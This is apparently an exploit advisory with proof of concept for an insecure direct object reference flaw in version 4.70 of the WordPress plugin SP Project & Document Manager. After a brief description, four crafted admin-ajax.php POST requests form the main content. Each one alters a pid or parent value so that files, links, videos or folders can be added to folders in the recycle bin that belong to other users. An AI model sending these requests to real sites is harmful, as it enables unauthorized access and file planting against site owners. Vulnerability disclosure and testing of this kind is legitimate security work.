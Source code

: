 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to upload files/add link/add video/add sub folder in folder that is in recycle bin(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

Cookie: ...; pid=1(CHANGE HERE)
Connection: close

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="file[]"; filename="IMG_0628.PNG"
Content-Type: image/png

...

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
...

```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2(CHANGE HERE)&action=sp_cdm_link_save_embed&uid=2&link-name=link1&link-url=http%3A%2F%2Flocalhost%3A8020%2Flink1&dlg-upload-notes=aaa
```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2(CHANGE HERE)&action=sp_cdm_media_save_embed&uid=3&file-name=video2&embed=22222&dlg-upload-notes=bbb
```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...
Cookie: ...; pid=2(CHANGE HERE)

action=cdm_save_category&name=folder22&uid=3&parent=2(CHANGE HERE)
```
